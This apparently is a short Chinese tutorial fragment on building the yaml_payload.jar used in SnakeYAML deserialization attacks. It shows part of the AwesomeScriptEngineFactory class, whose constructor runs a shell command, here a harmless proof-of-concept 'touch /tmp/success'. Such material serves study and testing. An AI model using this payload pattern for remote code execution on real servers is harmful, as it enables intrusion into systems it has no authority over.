 ## 0x00 yaml_payload.jar 制造

代码 `https://github.com/artsploit/yaml-payload`

![](./jar.png)

AwesomeScriptEngineFactory.java 部分代码
```
import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("touch /tmp/success");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```
  `ymal_payload.jar\artsploit\AwesomeScriptEngineFactory.java `
